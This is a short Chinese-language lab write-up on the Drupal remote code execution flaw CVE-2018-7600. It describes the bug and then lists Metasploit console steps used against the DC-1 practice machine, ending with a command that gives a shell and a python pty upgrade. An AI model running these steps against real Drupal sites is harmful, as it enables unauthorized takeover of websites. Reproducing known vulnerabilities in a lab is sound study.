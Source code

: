 # Drupal远程代码执行漏洞

引用[Drupal 远程代码执行漏洞(CVE-2018-7600)复现 - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/268189.html)



## 漏洞介绍

Drupal是使用PHP语言编写的开源内容管理框架（CMF），它由由内容管理系统和PHP开发框架共同构成，在GPL2.0及更新协议下发布。连续多年荣获全球最佳CMS大奖，是基于PHP语言最著名的WEB应用程序。

2018年3月28日，Drupal Security Team官方发布公告称Drupal 6,7,8等多个子版本存在远程代码执行漏洞，攻击者可以利用该漏洞执行恶意代码。

Drupal未对表单请求数据做严格过滤，导致攻击者可以将恶意代码注入表单内容，此漏洞允许未经身份验证的攻击者在默认或常见的Drupal安装上执行远程代码执行。

影响范围: Drupal 6,7,8等多个子版本

## 漏洞原理

该漏洞的产生的根本原因在于Drupal对表单的渲染上,攻击者可以利用该漏洞攻击Drupal系统的网站，执行恶意代码，最后完全控制被攻击的网站

## 漏洞复现

复现不了一点，网上给的payload都没复现成功,你妹的

靶机DC-1

还得是msf

```bash
msfconsole 
search Drupal
use 1
set RHOST 目标ip
set payload default_payload(默认payload)
exploit
shell
python -c 'import pty;pty.spawn("/bin/bash");'
```

![image-20231128214359405](http://111.229.225.13:81/i/2023/11/29/xslk9m-2.png)

![image-20231128214543280](http://111.229.225.13:81/i/2023/11/29/xso1wd-2.png)

![image-20231128214842816](http://111.229.225.13:81/i/2023/11/29/xsyz4t-2.png)

![image-20231128215005647](http://111.229.225.13:81/i/2023/11/29/xt3rf8-2.png)
